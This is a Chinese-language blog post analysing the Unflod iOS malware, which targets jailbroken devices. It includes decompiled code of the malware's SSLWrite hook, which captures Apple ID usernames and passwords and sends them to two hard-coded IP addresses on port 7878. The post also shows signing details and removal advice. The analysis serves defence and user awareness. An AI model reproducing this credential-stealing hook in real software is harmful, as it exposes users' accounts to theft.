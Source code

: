 ```yaml
---
layout: post   
title: 对iOS恶意软件Unflod的分析       
categories: 
- iOS   
tags:     
- iOS
---    
```


###介绍

 tdvx在Reddit上发帖说：从上周起，他用Snapchat和Google Hangouts的使用经常遇到crash，经过排查，他发现是下面这个可疑文件导致的：/Library/MobileSubstrate/DynamicLibraries/Unflod.dylib
 
 i0n1c对这个可疑文件进行了分析,[iOS Malware Campaign "Unflod Baby Panda"][1]
 
<br>
###分析

这个恶意文件位于：/Library/MobileSubstrate/DynamicLibraries/Unflod.dylib或者framework.dylib。依赖于MobileSubstrate，只在越狱设备上起作用。



    ｀int __fastcall replace_SSLWrite(int a1, char *a2, int a3, int a4)
     {
     ......
     
     if ( !findhead )
      {
        v19 = strstr(v22, "/WebObjects/MZFinance.woa/wa/authenticate HTTP/1.1");
        if ( v19 )
        {
          findhead = 1;
          strcpy(content, v22);
        }
      }
      if ( findhead == 1 )
      {
        v18 = strstr(v22, "<key>appleId</key>");
        v17 = strstr(v22, "<key>password</key>");
        if ( v18 )
        {
          if ( v17 )
          {
            strcat(content, v22);
            v16 = strstr(content, "</plist>");
            if ( v16 && v16 - content <= 2040 )
              v16[8] = 0;
            v14 = 0;
            v15 = socket(2, 1, 0);
            if ( v15 < 0 )
            {
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v13.sa_family = 2;
            *(_WORD *)&v13.sa_data[0] = 0xC61Eu;
            *(_DWORD *)&v13.sa_data[2] = inet_addr("23.88.10.4");
            if ( connect(v15, &v13, 0x10u) < 0 )
            {
              close(v15);
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v5 = v15;
            v6 = strlen(content);
            v14 = write(v5, content, v6);
            v11 = 0;
            close(v15);
            v12 = socket(2, 1, 0);
            if ( v12 < 0 )
            {
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v10.sa_family = 2;
            *(_WORD *)&v10.sa_data[0] = 0xC61Eu;
            *(_DWORD *)&v10.sa_data[2] = inet_addr("23.228.204.55");
            if ( connect(v12, &v10, 0x10u) < 0 )
            {
              close(v12);
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v7 = v12;
            v8 = strlen(content);
            v11 = write(v7, content, v8);
            close(v12);
            findhead = 2;
          }
        }
      }
      v24 = pSSLWrite(v23, v22, v21, v20);
    LABEL_20:
      if ( __stack_chk_guard != v25 )
        __stack_chk_fail(__stack_chk_guard, v24, v25, v4);
      return v24;
    }


这个恶意代码通过 Hook Security.framework的SSLWrite，截取Appid和密码，然后把这些信息发送到

IP：23.88.10.4 和 23.228.204.55。端口为7878。也就是上面的0xC61Eu。注意，这里是big endian模式。所以，端口其实是0x1EC6,即7878。








<br>
###签名
这个恶意软件被iPhone开发者证书签名。签名信息如下：

    $ codesign -vvvv -d Unflod.dylib
    Executable=./Unflod.dylib
    Identifier=com.your.framework
    Format=Mach-O thin (armv7)
    CodeDirectory v=20100 size=227 flags=0x0(none) hashes=3+5 location=embedded
    Hash type=sha1 size=20
    CDHash=da792624675e82b3460b426f869fbe718abea3f9
    Signature size=4322
    Authority=iPhone Developer: WANG XIN (P5KFURM8M8)
    Authority=Apple Worldwide Developer Relations Certification Authority
    Authority=Apple Root CA
    Signed Time=14 Feb 2014 04:32:58
    Info.plist=not bound
    Sealed Resources=none
    Internal requirements count=2 size=484
    
需要注意的是，**这并不表示这个人就是这个事情的始作俑者**。这个人可能是假冒的，也可能是其证书被偷窃，也可能是真正涉及到这个事情，但是，我们没有办法知道，但是，苹果需要调查这个事情。


*“This person might be a fake persona, the victim of certificate theft or really involved. It is impossible for us to know, but Apple should be able to investigate from this information and terminate that developer account.[1]“*


<br>
###解决方法

如果你的设备上有Unflod.dylib/framework.dylib这两个文件，把其删掉，然后重新设置Apple id和密码就可以了。

<br>
###结束语
没有越狱的用户不用担心Unflod这个恶意软件。iOS 7之后，输入法，电话黑名单等功能系统都自带，用户也没必要越狱了。


**建议普通用户别越狱。越狱需谨慎。**



<br>
 i0n1c分析的原文是：[iOS Malware Campaign "Unflod Baby Panda"][1]
<br>

###关于我
大家好，我是[@吴发伟Ted](http://weibo.com/wufawei)，我会在博客上分享自己学习的一些东西。

###好文推荐  && iOS Wiki

[好文推荐(news.ios-wiki.com)][5]和[iOS Wiki(www.ios-wiki.com)][6]是我利用业余时间建立的网站。

###微信公众账号
微信公众账号：**iOS技术分享**  
![](http://farm3.staticflickr.com/2826/10855679484_56b7429bd6_m.jpg)




<br/>

[1]:https://www.sektioneins.de/en/blog/14-04-18-iOS-malware-campaign-unflod-baby-panda.html

[2]:http://www.ios-wiki.com/issues/12
[3]:http://www.ios-wiki.com/mobile/issues/12

[5]:http://news.ios-wiki.com
[6]:http://www.ios-wiki.com